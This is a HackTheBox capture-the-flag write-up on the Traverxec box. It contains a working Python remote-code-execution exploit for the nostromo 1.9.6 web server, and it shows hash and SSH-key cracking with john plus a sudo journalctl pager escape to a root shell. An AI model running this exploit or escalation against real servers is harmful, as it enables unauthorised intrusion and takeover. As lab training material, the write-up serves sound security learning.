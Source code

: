 ```yaml
---
title: HackTheBox Traverxec
author: Marius Kimmina
date: 2020-04-11 14:10:00 +0800
categories: [CTF, HackTheBox]
tags: [BSD]
published: true
---
```


# 0x0 Introduction
Yet another HTB box and again one of the easier ones. This time we had to exploit a vulnerable nostromo webserver version for command execution and then escalate privileges from there. 
![image](/assets/images/traverxec_htb_info.png "Traverxec Logo")

# 0x1 Getting a foothold

Starting of as usual with a nmap scan I got the following result: 

```
# Nmap 7.80 scan initiated Mon Feb 10 08:20:59 2020 as: nmap -sV -sC -oA nmap/nmap 10.10.10.165
Nmap scan report for 10.10.10.165
Host is up (0.0061s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 10 08:21:11 2020 -- 1 IP address (1 host up) scanned in 12.31 seconds
```

I had never heard of nostromo before but a quick google search told me that it's an open source webserver that is common on BSD and is also called nhttpd.  
When I searched for the version number I immediately found an RCE vulnerability and a python script to exploit it.  

```py
#!/usr/bin/env python

import socket
import argparse

parser = argparse.ArgumentParser(description='RCE in Nostromo web server through 1.9.6 due to path traversal.')
parser.add_argument('host',help='domain/IP of the Nostromo web server')
parser.add_argument('port',help='port number',type=int)
parser.add_argument('cmd',help='command to execute, default is id',default='id',nargs='?')
args = parser.parse_args()

def recv(s):
	r=''
	try:
		while True:
			t=s.recv(1024)
			if len(t)==0:
				break
			r+=t
	except:
		pass
	return r
def exploit(host,port,cmd):
	s=socket.socket()
	s.settimeout(1)
	s.connect((host,int(port)))
	payload="""POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1""".format(cmd)
	s.send(payload)
	r=recv(s)
	r=r[r.index('\r\n\r\n')+4:]
	print r

exploit(args.host,args.port,args.cmd)
```

The vulnerability here is a path traversal that allows us to reach /bin/sh
Which is also very simple to use 

```
mindslave@kalibox:~/hackthebox/Traverxec/nostromo$ python2 exp.py 10.10.10.165 80 "whoami"

www-data
```


# 0x2 getting the user.txt

As www-data I usually first want to look in our own directory because that's were we are most likely to have access. so thats /var/nostromo in this case.  
In there I found a conf directory and was able to extract a hash from the .htpasswd file inside.

```
mindslave@kalibox:~/hackthebox/Traverxec/nostromo$ python2 exp.py 10.10.10.165 80 "cat /var/nostromo/conf/.htpasswd"

david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

Copied the credentials over to my maschine and asked my friend john if he could tell me something about them

```
mindslave@kalibox:~/hackthebox/Traverxec/nostromo/creds$ cat pwfile 
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
mindslave@kalibox:~/hackthebox/Traverxec/nostromo/creds$ john --wordlist=/usr/share/wordlists/rockyou.txt pwfile 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (david)
1g 0:00:00:24 DONE (2020-02-10 09:50) 0.04027g/s 426034p/s 426034c/s 426034C/s NuiMeanPoon..Nous4=5
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now we have password "Nowonly4me". First thing I tested with this password was ssh of course, but sadly david did not use that as his ssh password.  
Going further throught the nhttpd.conf I found the following:

```
# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd
```

This stells us that we can use the password to authenticate at the Website, the question left to be answered is where on the Website.
looking at the Nostromo documentation I found that users get a path on the Webserver, here the relevant part of the docs:

```
HOMEDIRS
To serve the home directories of your users via HTTP, enable the homedirs option by defining the path in where the home directories are stored, normally /home. To access a users home directory enter a ~ in the URL followed by the home directory name like in this example:
http://www.nazgul.ch/~hacki/
The content of the home directory is handled exactly the same way as a directory in your document root. If some users don't want that their home directory can be accessed via HTTP, they shall remove the world readable flag on their home directory and a caller will receive a 403 Forbidden response. Also, if basic authentication is enabled, a user can create an .htaccess file in his home directory and a caller will need to authenticate.
You can restrict the access within the home directories to a single sub directory by defining it via the homedirs_public option.
```

so the /~david/ path did exists but didn't show us anything interesting, we need some kind of file name which we could find in /home/david/public_www/ the fiel we need is called protected-file-area (I knew the public_www existed because it said so in the nostromo config file)

The next step was to go to http://10.10.10.165/~/david/protected-file-area, there we could use the 'nowonly4me' password and we got his ssh-key which we could then again decrypt with john

```
$ python3 /usr/share/john/ssh2john.py id_rsa > johnfile
```

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt johnfile 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
Warning: Only 2 candidates left, minimum 8 needed for performance.
1g 0:00:00:02 DONE (2020-02-10 10:50) 0.3597g/s 5158Kp/s 5158Kc/s 5158KC/sa6_123..*7¡Vamos!
Session completed
```

log in with ssh
```
$ ssh -i id_rsa david@10.10.10.165
Enter passphrase for key 'id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
Last login: Mon Feb 10 04:51:07 2020 from 10.10.14.2
david@traverxec:~$
```


# 0x3 getting the root.txt

In davids "bin" directoy I found an interesting script 

```bash
$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
```

Here I only care about the last line "/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat" which means we can execute this journalctl command as root and if we do that, without piping it into cat, we invoke the default pager, most likely "less", as root. And inside of less we can execute "!/bin/sh" that will run as root and thus give us a root shell. 

```
$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service;
-- Logs begin at Tue 2020-02-11 01:12:26 EST, end at Tue 2020-02-11 02:02:57 EST. --
Feb 11 01:12:29 traverxec nhttpd[422]: started
Feb 11 01:12:29 traverxec nhttpd[422]: max. file descriptors = 1040 (cur) / 1040 (max)
Feb 11 01:12:29 traverxec systemd[1]: Started nostromo nhttpd server.
Feb 11 02:01:17 traverxec sudo[1626]: pam_unix(sudo:auth): authentication failure; logname= uid
Feb 11 02:01:53 traverxec sudo[1626]: www-data : command not allowed ; TTY=pts/1 ; PWD=/usr/bin
!/bin/sh
# whoami
root
```
